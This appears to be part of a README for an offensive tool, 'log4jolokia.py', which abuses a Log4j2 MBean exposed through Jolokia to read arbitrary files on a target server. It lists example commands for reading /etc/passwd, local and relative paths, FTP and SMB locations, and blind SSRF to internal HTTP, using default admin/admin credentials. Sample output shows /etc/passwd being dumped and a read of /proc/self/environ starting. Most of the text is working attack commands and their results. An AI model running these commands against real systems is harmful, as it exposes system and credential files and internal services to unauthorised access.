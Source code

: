 Help - Read File Specific Parameters:
```
$ python3 log4jolokia.py read_file http://a -h

  ***TRUNCATED***

  -r [READ], --read [READ]
                        Absolute or relative path of a file to read on target (Use only with mode: read_file)

Example commands:
	- Absolute Path:
		python3 log4jolokia.py read_file http://127.0.0.1:8161/console/jolokia/ -r /etc/passwd -u admin -p admin -H 'Origin: http://localhost'
	- Relative Path:
		python3 log4jolokia.py read_file http://127.0.0.1:8161/console/jolokia/ -r ./artemis -u admin -p admin -H 'Origin: http://localhost'
	- Specific Protocol:
		-- FTP:
		python3 log4jolokia.py read_file http://127.0.0.1:8161/console/jolokia/ -r ftp://test:test@127.0.0.1:22/test -u admin -p admin -H 'Origin: http://localhost'
		-- SMB (Windows only):
		python3 log4jolokia.py read_file http://127.0.0.1:8161/console/jolokia/ -r file:////127.0.0.1/C/test -u admin -p admin -H 'Origin: http://localhost'
		-- HTTP SSRF (Usually no output a.k.a. Blind SSRF):
		python3 log4jolokia.py read_file http://127.0.0.1:8161/console/jolokia/ -r 'http://127.0.0.1:80/test?test=test' -u admin -p admin -H 'Origin: http://localhost'
```

Example - Read "/etc/passwd":
```
$ python3 log4jolokia.py read_file http://127.0.0.1:8161/console/jolokia/ -u admin -p admin -H 'Origin: http://localhost' -r /etc/passwd
[.] Looking for "org.apache.logging.log4j2" mbeans in http://127.0.0.1:8161/console/jolokia/list
[+] Found Log4J Mbean org.apache.logging.log4j2:type=21263314
[+] Found Log4J Mbean org.apache.logging.log4j2:type=76ed5528
[.] Using mbean org.apache.logging.log4j2:type=21263314
[.] Setting ConfigLocationUri to point to arbitrary location /etc/passwd
[+] Successfully set ConfigLocationUri to "/etc/passwd" 
[.] Reading file output from ConfigText
[+] Content of "/etc/passwd":

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
***TRUNCATED***
```

Example - Read "/proc/self/environ" (content contains non-prinatable chars (e.g. null-bytes) so the output will be base64 encoded):
```
$ python3 log4jolokia.py read_file http://127.0.0.1:8161/console/jolokia/ -u admin -p admin -H 'Origin: http://localhost' -r /proc/self/environ
[.] Looking for "org.apache.logging.log4j2" mbeans in http://127.0.0.1:8161/console/jolokia/list
[+] Found Log4J Mbean org.apache.logging.log4j2:type=21263314
[+] Found Log4J Mbean org.apache.logging.log4j2:type=76ed5528
[.] Using mbean org.apache.logging.log4j2:type=21263314
[.] Setting ConfigLocationUri to point to arbitrary location /proc/self/environ
[+] Successfully set ConfigLocationUri to "/proc/self/environ" 
[.] Reading file output from ConfigText
[.] File "/proc/self/environ" contains non-printable characters, displaying base64 encoding
[+] Base64 content of "/proc/self/environ":

```